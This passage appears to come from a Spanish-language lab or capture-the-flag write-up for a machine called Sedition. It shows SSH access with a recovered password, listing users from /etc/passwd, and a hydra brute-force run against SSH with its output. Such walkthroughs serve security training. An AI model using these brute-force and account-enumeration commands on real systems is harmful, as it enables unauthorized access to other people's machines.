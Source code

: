 Probemos si esa contraseña sirve con este usuario para entrar al **servicio SSH**:
```bash
ssh cowboy@192.168.100.100 -p 65535
cowboy@192.168.100.100's password: 
Linux Sedition 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64
...
Last login: Sun Jul  6 20:00:56 2025
cowboy@Sedition:~$ whoami
cowboy
```
Funcionó.

Nada más por las dudas, veamos qué usuarios existen:
```bash
cowboy@Sedition:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
cowboy:x:1001:1001:cowboy,,,:/home/cowboy:/bin/bash
```
Solo hay 2 usuarios aparte del **Root**, entonces el **usuario sebastian** nunca existió.

Lo que me da a entender que el **servicio Samba** está tan mal configurado, que permite a usuarios inexistentes listar sus archivos compartidos, los usuarios de la máquina víctima, etc.

<br>

<h2 id="Hydra">Aplicando Fuerza Bruta al Servicio SSH</h2>

Digamos que ocupar la contraseña del **archivo ZIP** no hubiera funcionado.

En dicho caso, podemos aplicar **Fuerza Bruta** al **servicio Samba y SSH**, para averiguar si existe un usuario al que le pertenezca la contraseña.

Pero enfoquémonos en el **servicio SSH**, así que usemos la herramienta **hydra** para aplicar la **Fuerza Bruta**:
```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p '**********' ssh://192.168.100.100 -s 65535 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-10 16:37:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://192.168.100.100:65535/
[65535][ssh] host: 192.168.100.100   login: cowboy   password: ************
```
Excelente, tenemos a un usuario válido.

Recuerda detener el ataque, ya que si no el ataque seguirá activo.

Ya sabemos que el usuario y contraseña funcionan, así que continuemos.

